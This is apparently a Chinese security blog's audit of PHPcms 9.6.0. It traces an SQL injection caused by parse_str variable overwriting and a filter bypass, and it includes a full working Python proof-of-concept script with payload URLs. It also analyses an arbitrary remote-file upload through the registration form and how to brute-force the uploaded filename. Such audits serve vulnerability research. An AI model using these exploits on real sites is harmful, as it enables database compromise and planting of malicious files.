






# PHPcms 9.6.0漏洞审计

## SQL注入

### 原理介绍

复习这个洞的时候，之前别人分析过，漏洞点在`/phpcms/modules/content/down.php`文件中:

```php
	public function init() {
		$a_k = trim($_GET['a_k']);
		if(!isset($a_k)) showmessage(L('illegal_parameters'));
		$a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
		if(empty($a_k)) showmessage(L('illegal_parameters'));
		unset($i,$m,$f);
		parse_str($a_k);
		if(isset($i)) $i = $id = intval($i);
		if(!isset($m)) showmessage(L('illegal_parameters'));
		if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
		if(empty($f)) showmessage(L('url_invalid'));
		$allow_visitor = 1;
		$MODEL = getcache('model','commons');
		$tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
		$this->db->table_name = $tablename.'_data';
		$rs = $this->db->get_one(array('id'=>$id));	
		$siteids = getcache('category_content','commons');
		$siteid = $siteids[$catid];
		$CATEGORYS = getcache('category_content_'.$siteid,'commons');

		$this->category = $CATEGORYS[$catid];
		$this->category_setting = string2array($this->category['setting']);
        。。。。
    }
```

这里有一串代码。


这串代码主要是通过GET方式传入`a_k`，然后通过sys_auth()函数对他进行。跟进下sys_auth()看看是干嘛的。


发现其实就是个加密解密的函数。然后这里有个parse_str()函数，且没有跟第二个参数，明显存在变量覆盖问题。

紧接着下面有段代码是这样。

```php
		if(isset($i)) $i = $id = intval($i);
		if(!isset($m)) showmessage(L('illegal_parameters'));
		if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
		if(empty($f)) showmessage(L('url_invalid'));
		$allow_visitor = 1;
		$MODEL = getcache('model','commons');
		$tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
		$this->db->table_name = $tablename.'_data';
		$rs = $this->db->get_one(array('id'=>$id));	
```

这里虽然对`$i`进行了强制类型转换，但是上面有个`parse_str($a_k);`明显的变量覆盖问题，所以这里的转换实际上毫无意义。这里有句`$rs = $this->db->get_one(array('id'=>$id));`，跟进get_one()函数发现就是进行数据库查询，所以这句代码直接将id带入数据库查询。

```php
function get_one($query)
{
	$this->querynum++;
    $rs = $this->conn->Execute($query);
	$r = $this->fetch_array($rs);
	$this->free_result($rs);
	return $r;
}
```
从上面我们知道，这里`$id`可控，且直接带入数据库查询，因此这里应该存在SQL注入漏洞。

从刚刚的代码中我们可以得知`$a_k`变量最后是经过了sys_auth函数加密处理之后所得到的值，上面已经提及过了。现在要做的一点就是因为是加密后的值，有点麻烦，所以我们看看能不能找得到一个能得到这段加密数值的值，并且这个值是可以返回的。全文搜索关键函数sys_auth。

在phpcms/libs/classes/param.class.php处发现两个函数，getcookie和setcookie

```php
public static function set_cookie($var, $value = '', $time = 0) {
   $time = $time > 0 ? $time : ($value == '' ? SYS_TIME - 3600 : 0);
   $s = $_SERVER['SERVER_PORT'] == '443' ? 1 : 0;
   $var = pc_base::load_config('system','cookie_pre').$var;
   $_COOKIE[$var] = $value;
   if (is_array($value)) {
      foreach($value as $k=>$v) {
         setcookie($var.'['.$k.']', sys_auth($v, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
      }
   } else {
      setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
   }
}
```

```php
public static function get_cookie($var, $default = '') {
   $var = pc_base::load_config('system','cookie_pre').$var;
   $value = isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default;
   if(in_array($var,array('_userid','userid','siteid','_groupid','_roleid'))) {
      $value = intval($value);
   } elseif(in_array($var,array('_username','username','_nickname','admin_username','sys_lang'))) { //  site_model auth
      $value = safe_replace($value);
   }
   return $value;
}
```

这两个函数均使用了sys_auth函数，并且返回结果，因此我们需要去寻找以下`param::set_cookie`, 在phpcms/modules/attachment/attachments.php部分发现一个显而易见的操控点。


代码如下：

```php
public function swfupload_json() {
	$arr['aid'] = intval($_GET['aid']);
	$arr['src'] = safe_replace(trim($_GET['src']));
	$arr['filename'] = urlencode(safe_replace($_GET['filename']));
	$json_str = json_encode($arr);
	$att_arr_exist = param::get_cookie('att_json');
	$att_arr_exist_tmp = explode('||', $att_arr_exist);
	if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
		return true;
	} else {
		$json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
		param::set_cookie('att_json',$json_str);
		return true;			
	}
}
```
这里有意思的地方在于if的判断处，如果不合法，导致进入else部分，生成了对应cookie。这里还有个safe_replace函数，看看干了啥。

```php
function safe_replace($string) {
	$string = str_replace('%20','',$string);
	$string = str_replace('%27','',$string);
	$string = str_replace('%2527','',$string);
	$string = str_replace('*','',$string);
	$string = str_replace('"','&quot;',$string);
	$string = str_replace("'",'',$string);
	$string = str_replace('"','',$string);
	$string = str_replace(';','',$string);
	$string = str_replace('<','&lt;',$string);
	$string = str_replace('>','&gt;',$string);
	$string = str_replace("{",'',$string);
	$string = str_replace('}','',$string);
	$string = str_replace('\\','',$string);
	return $string;
}
```

这个其实很好绕过。函数将敏感字符替换为空，但问题是只执行一次，所以当输入是`%*27`时`*`被过滤，进而可以得到`%27`。

当然现在情况下还是登陆才能注入，危害好像不是特别大。所以这里看看是否能绕过登陆，看看这里的验证。

```php
class attachments {
	private $att_db;
	function __construct() {
		pc_base::load_app_func('global');
		$this->upload_url = pc_base::load_config('system','upload_url');
		$this->upload_path = pc_base::load_config('system','upload_path');		
		$this->imgext = array('jpg','gif','png','bmp','jpeg');
		$this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'],'DECODE'));
		$this->isadmin = $this->admin_username = $_SESSION['roleid'] ? 1 : 0;
		$this->groupid = param::get_cookie('_groupid') ? param::get_cookie('_groupid') : 8;
		//判断是否登录
		if(empty($this->userid)){
			showmessage(L('please_login','','member'));
		}
	}
```

这里的逻辑大概是调用param:get-cookie 从cookie里面获取user_id加密值，如果解密后不为空， 就判断已经登录。我们只需要找一个可能得到加密值的地方就行，所以定位到`/phpcms/modules/wap/index.php` 中：

```php
function __construct() {		
	$this->db = pc_base::load_model('content_model');
	$this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);
	param::set_cookie('siteid',$this->siteid);	
	$this->wap_site = getcache('wap_site','wap');
	$this->types = getcache('wap_type','wap');
	$this->wap = $this->wap_site[$this->siteid];
	define('WAP_SITEURL', $this->wap['domain'] ? $this->wap['domain'].'index.php?' : APP_PATH.'index.php?m=wap&siteid='.$this->siteid);
	if($this->wap['status']!=1) exit(L('wap_close_status'));
}
```

这里调用了set_cookie 因此我们可以很轻松的得到一个可操控的加密值(注意site_id 调用了intval函数，无法直接传入我们payload, 只能得到整数值)。

### 构造poc

#### 第一步

访问`http://127.0.0.1/phpcms/index.php?m=wap&a=index&siteid=1`得到一个合法的siteid加密值。

```python
    step1 = '{}/index.php?m=wap&a=index&siteid=1'.format(url)

    r = requests.get(step1)
    #print r.cookies
    cookies = {}

    for cookie in r.cookies:
        if '_siteid' in cookie.name:
            userid = cookie.value
            print 'userid:'+userid
            cookie_head = cookie.name[:6]
            cookies[cookie_head + '_userid'] = cookie.value
            cookies[cookie.name] = cookie.value
            print cookies
```


我们接着看swfupload_json函数， json_str是cookie的内容，而json_str又是由这三部分组成

```php
$arr['aid'] = intval($_GET['aid']);
$arr['src'] = safe_replace(trim($_GET['src']));
$arr['filename'] = urlencode(safe_replace($_GET['filename']));
$json_str = json_encode($arr);
```

这三个参数， aid用了intval,filename用了urlencode和safe_replace函数，src用safe_replace函数过滤。前面我们刚刚简单介绍过了，safe_replace很好绕过。

#### 第二步

带着第一步得到的userid的值，访问第二个连接，并且加上payload。

```
http://127.0.0.1/phpcms/index.php?m=attachment&c=attachments&a=swfupload_json&src=&id=%*27 and updat*exml(1,con*cat(1,(us*er())),1)%23&modelid=1&catid=1&m=1&f=
```

```python
  step2 = "{}/index.php?m=attachment&c=attachments&a=swfupload_json&src={}".format(url, quote(payload))
    #print 'step2:', step2, cookies
    r = requests.get(step2,cookies=cookies)
    for cookie in r.cookies:
        if '_att_json' in cookie.name:
            encode_payload = cookie.value
            print 'encode_payload:'+encode_payload
```


####第三步

带上页面获取的_att_json然后构造带入执行就好了

```
http://127.0.0.1/phpcms/index.php?m=content&c=down&a=init&a_k=a4ccFfjVcOKqub4EbK66IZvqFPm2zuSaSmrcy-Hzq7RM4eTO9J3Zw7ZUiI8LX5dup9GJWjFQmTjxfJpdp6cvIm5Ps9-HKDXh7eS9Ir1lnZhfrmEtJ8RF9eyjB-GNmojU0fZ4yEacluZaEf3lR_oiBhIGb6mVggA9uaZx3Q6UO1BPW6LDm3M
```

```python
 step3 = url + '/index.php?m=content&c=down&a_k=' + encode_payload
    #print 'step3:',step3
    r = requests.get(step3, cookies=cookies)
    result = re.findall('XPATH syntax error: \'(.*?)\'', r.content)
    print result

```


#### 附上python脚本

```python
import requests
from urllib import quote
import re

def poc(url, payload):
    step1 = '{}/index.php?m=wap&a=index&siteid=1'.format(url)

    r = requests.get(step1)
    #print r.cookies
    cookies = {}

    for cookie in r.cookies:
        if '_siteid' in cookie.name:
            userid = cookie.value
            print 'userid:'+userid
            cookie_head = cookie.name[:6]
            cookies[cookie_head + '_userid'] = cookie.value
            cookies[cookie.name] = cookie.value
            print cookies

    step2 = "{}/index.php?m=attachment&c=attachments&a=swfupload_json&src={}".format(url, quote(payload))
    #print 'step2:', step2, cookies
    r = requests.get(step2,cookies=cookies)
    for cookie in r.cookies:
        if '_att_json' in cookie.name:
            encode_payload = cookie.value
            print 'encode_payload:'+encode_payload

    step3 = url + '/index.php?m=content&c=down&a_k=' + encode_payload
    #print 'step3:',step3
    r = requests.get(step3, cookies=cookies)
    result = re.findall('XPATH syntax error: \'(.*?)\'', r.content)
    print result

def run(url):
    payload = "&id=%*27 and updatexml(1,concat(1,(select user())),1)%23&modelid=1&catid=1&m=1&f="
    print poc(url, payload)

if __name__ == '__main__':
    run('http://127.0.0.1/phpcms')
```
## 任意文件文件上传

### 原理介绍

这里还有个文件上传漏洞，漏洞利用点是注册的地方，网上常见的一个payload:

```
index.php?m=member&c=index&a=register&siteid=1

post数据： 
siteid=1&modelid=11&username=test&password=testxx&email=test@qq.com&info[content]=&dosubmit=1
```

这里我选择phpstorm配合xdebug动态调试一波，看看漏洞点在哪。



phpcms 注册在模块`/phpcms/modules/member` 的index.php文件中，找到register函数。

```php
//附表信息验证 通过模型获取会员信息
if($member_setting['choosemodel']) {
   require_once CACHE_MODEL_PATH.'member_input.class.php';
   require_once CACHE_MODEL_PATH.'member_update.class.php';
   $member_input = new member_input($userinfo['modelid']);       
   $_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
   $user_model_info = $member_input->get($_POST['info']);                              
}
```

这里通过require_once包含了两个caches/caches_model/下的PHP文件，然后通过modelid new了一个member_input类。

```php
   require_once CACHE_MODEL_PATH.'member_input.class.php';
   require_once CACHE_MODEL_PATH.'member_update.class.php';
   $member_input = new member_input($userinfo['modelid']);       
```

这里我们下一个断点，动态调试下。



通过payload，不难看出我们的 payload 在`$_POST['info']`里，而这里对`$_POST['info']`进行了处理，所以跟进一下。这里其实在通过`$_POST['info']`传入的时候针对其使用new_html_special_chars对<>进行编码之后。


跟进$member_input->get函数，该函数位于caches/caches_model/caches_data/member_input.class.php中。



这里我们可以看到，我们的payload是info[content]，所以调用的是editor函数。所以跟一下，editor函数。这个函数也在这个文件里的第59-66

```php
function editor($field, $value) {
		$setting = string2array($this->fields[$field]['setting']);
		$enablesaveimage = $setting['enablesaveimage'];
		$site_setting = string2array($this->site_config['setting']);
		$watermark_enable = intval($site_setting['watermark_enable']);
		$value = $this->attachment->download('content', $value,$watermark_enable);
		return $value;
	}
```


然后这里就执行$this->attachment->download函数进行下载，我们继续跟进。

在phpcms/libs/classes/attachment.class.php中：

```php
function download($field, $value,$watermark = '0',$ext = 'gif|jpg|jpeg|bmp|png', $absurl = '', $basehref = '')
{
   global $image_d;
   $this->att_db = pc_base::load_model('attachment_model');
   $upload_url = pc_base::load_config('system','upload_url');
   $this->field = $field;
   $dir = date('Y/md/');
   $uploadpath = $upload_url.$dir;
   $uploaddir = $this->upload_root.$dir;
   $string = new_stripslashes($value);
   if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;
   $remotefileurls = array();
   foreach($matches[3] as $matche)
   {
      if(strpos($matche, '://') === false) continue;
      dir_create($uploaddir);
      $remotefileurls[$matche] = $this->fillurl($matche, $absurl, $basehref);
   }
   unset($matches, $string);
   $remotefileurls = array_unique($remotefileurls);
   $oldpath = $newpath = array();
   foreach($remotefileurls as $k=>$file) {
      if(strpos($file, '://') === false || strpos($file, $upload_url) !== false) continue;
      $filename = fileext($file);
      $file_name = basename($file);
      $filename = $this->getname($filename);

      $newfile = $uploaddir.$filename;
      $upload_func = $this->upload_func;
      if($upload_func($file, $newfile)) {
         $oldpath[] = $k;
         $GLOBALS['downloadfiles'][] = $newpath[] = $uploadpath.$filename;
         @chmod($newfile, 0777);
         $fileext = fileext($filename);
         if($watermark){
            watermark($newfile, $newfile,$this->siteid);
         }
         $filepath = $dir.$filename;
         $downloadedfile = array('filename'=>$filename, 'filepath'=>$filepath, 'filesize'=>filesize($newfile), 'fileext'=>$fileext);
         $aid = $this->add($downloadedfile);
         $this->downloadedfiles[$aid] = $filepath;
      }
   }
   return str_replace($oldpath, $newpath, $value);
}  
```

函数中先对$value中的引号进行了转义，然后使用正则匹配：

```php
$ext = 'gif|jpg|jpeg|bmp|png';
...
$string = new_stripslashes($value);
if(!preg_match_all("/(href|src)=(["|']?)([^ "'>]+.($ext))\2/i",$string, $matches)) return $value;
```

这里正则要求输入满足src/href=url.(gif|jpg|jpeg|bmp|png)，所以我们的payload``符合这一格式。

接下来有串代码，目的是用来代码来去除 url 中的锚点。

```php
foreach($matches[3] as $matche)
{
   if(strpos($matche, '://') === false) continue;
   dir_create($uploaddir);
   $remotefileurls[$matche] = $this->fillurl($matche, $absurl, $basehref);
}
```

最后在第162行有这样一行代码。

```php
$remotefileurls = array_unique($remotefileurls);
```

它的效果如下图，可以看到`.jpg`已经没有



然后继续单步调试就很明显知道干了什么。


这里就是通过程序调用copy函数，对远程的文件进行了下载，然后并且写入。这里其实已经告诉我们写的文件了。



### 后记

如何获取上传后的地址，这里有两种方法。

#### 第一种

```php
if(pc_base::load_config('system', 'phpsso')) {
   $this->_init_phpsso();
   $status = $this->client->ps_member_register($userinfo['username'], $userinfo['password'], $userinfo['email'], $userinfo['regip'], $userinfo['encrypt']);
   if($status > 0) {
      $userinfo['phpssouid'] = $status;
      //传入phpsso为明文密码，加密后存入phpcms_v9
      $password = $userinfo['password'];
      $userinfo['password'] = password($userinfo['password'], $userinfo['encrypt']);
      $userid = $this->db->insert($userinfo, 1);
      if($member_setting['choosemodel']) {   //如果开启选择模型
         $user_model_info['userid'] = $userid;
         //插入会员模型数据
         $this->db->set_model($userinfo['modelid']);
         $this->db->insert($user_model_info);
      }
```

可以看到当$status > 0时会执行 SQL 语句进行 INSERT 操作，向数据库中插入数据，因为表中并没有content列，所以产生报错。



#### 第二种

在无法得到路径的情况下我们只能爆破了， 文件名生成的方法为:

```php
function getname($fileext){
	return date('Ymdhis').rand(100, 999).'.'.$fileext;
}
```

因为我们只需要爆破rand(100,999)即可，很容易爆破出来文件名


